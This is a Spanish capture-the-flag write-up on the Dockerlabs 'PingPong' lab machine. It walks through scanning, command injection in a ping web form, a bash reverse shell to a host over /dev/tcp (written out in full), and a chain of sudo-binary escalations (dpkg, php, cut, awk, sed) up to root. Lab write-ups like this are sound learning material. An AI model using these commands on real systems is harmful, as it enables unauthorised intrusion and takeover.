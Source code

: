 # PingPong

Máquina vulnerable en modo **medium** de Dockerlabs.

- [Reconocimiento](#reconocimiento)
- [Escaneo](#escaneo)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<br/>

---

## Reconocimiento

La máquina objetivo se encuentra correctamente desplegada dentro de la red de laboratorio (en este caso, utilizando Docker).  
Dado que la dirección IP es conocida o fácilmente identificable dentro de este entorno controlado, esta fase se clasifica como **reconocimiento pasivo**.

![Reconocimiento](https://i.imgur.com/rs4PSAQ.png)

<br/>

---

## Escaneo

Se realizó un escaneo con **Nmap** para identificar puertos abiertos y servicios:

```bash
nmap -p- --open -sC -sV --min-rate 5000 -n -Pn 172.17.0.2
```

El **target** corresponde a la IP de la máquina víctima: **172.17.0.2**

Resultados principales:

- Puerto **80** abierto (Apache)
- Puerto **443** abierto (Apache)
- Puerto **5000** abierto corriendo una aplicación en Python (Werkzeug).

![Scan1](https://i.imgur.com/racpOYG.png)

<br/>

---

## Enumeración

Se hizo una revisión de los puertos **80** y **433** en el navegador pero los servidores no suministraron información relevante.

![Scan1](https://i.imgur.com/YS628ZP.png)

El siguiente paso fue buscar directorios y recursos ocultos con **Gobuster**:

```bash
gobuster dir -u "http://172.17.0.2"   -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt   -t 20 -x php,txt,html,php.bak
```

El resultado no arrojó muchos directorios, se inspeccionó el `machine.php` pero tampoco mostró nada relevante.

![Gobuster](https://i.imgur.com/JJOzxTm.png)
![Machine](https://i.imgur.com/yod5G0O.png)

Se pasó al puerto **5000** donde se hayó una aplicación para realizar pings a hosts pasados por medio de un input HTML, al parecer no sanitizado. Debido a esto se realizaron pruebas de **Command injection** para así conseguir obtener información de la máquina.

![Werkzeug1](https://i.imgur.com/37eesfV.png)
![Werkzeug1](https://i.imgur.com/MY85DKb.png)

<br/>

---

## Explotación

Gracias a que los resultados fueron positivos, se implementó una reverse shell con bash para conectar a la terminal.

![Werkzeug1](https://i.imgur.com/s6zQY5h.png)  
![Werkzeug2](https://i.imgur.com/sW9IsW7.png)

<br/>

---

## Escalada de privilegios

Después de implementar la reverse shell se analizó el entorno para validar cómo conseguir la escalada de privilegios.

Se buscaron binarios con permisos SUID:

```bash
find / -perm -4000 2>/dev/null
```

![SUID](https://i.imgur.com/PPXa0is.png)

Aunque algunos binarios no eran explotables, se observó `/usr/bin/dpkg` se puede ejecutar con el usuario `bobby`, lo que sugiere un movimiento lateral. En [GTFObins](https://gtfobins.github.io/gtfobins/dpkg/#sudo) podemos observar cómo ejecutar el dpkg.

Efectuamos ajustes en nuestro términal para evitar errores de list al ejecutar los comandos:

```
- script /dev/null -c bash
- stty raw -echo; fg
	reset xterm
- CTRL + z para pasarla background
- export TERM=xterm
- export SHELL=bash
- stty rows 47 colums 189
```

Al ejecutar los comandos para usar el dpkg:

```bash
sudo -u bobby /usr/bin/dpkg -l
```

![dpkg](https://i.imgur.com/YaJalta.png)
![dpkg](https://i.imgur.com/VKCKnWA.png)

Conseguido el usuario `bobby` Se repite el mismo proceso de comprobación de binarios y obtenemos lo siguiente para usuario `gladys`

![dpkg](https://i.imgur.com/3JNwdWo.png)

Se ejecuta el CMD en php para ejecutar otra reverse shell y conectarnos a `gladys`

`CMD='/bin/bash -c \ 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1\'`
`sudo -u gladys /usr/bin/php -r "system('$CMD');"`

Con esto pasamos al usuario `gladys` nuevamente se vuelve a repetir el proceso de comprobación, siempre utilizando searchbins o GTFObins en este caso el de [cut](https://gtfobins.github.io/gtfobins/cut/#sudo). Al revisar el directorio `/opt/` se encontró una flag que se utilizó para pasar al siguiente usuario `chocolatito`.

![dpkg](https://i.imgur.com/Iuf675b.png)

Obteniendo el usuario de `chocolatito` se vuelve a comprobar y se buscan nuevos binarios, en este caso es [awk](https://gtfobins.github.io/gtfobins/awk/#sudo). Que nos permite pasar al siguiente usuario que es `theboss`

![dpkg](https://i.imgur.com/ZeyEw1O.png)

Utilizando el método de comprobación como las veces anteriores, se descubre que este usuario en particular puede dar vía libre al root por medio de [sed](https://gtfobins.github.io/gtfobins/sed/#sudo).

![dpkg](https://i.imgur.com/ItDzxDz.png)

Y es con esto que después de realizar tantos movimientos laterales, se consigue escalar al root.
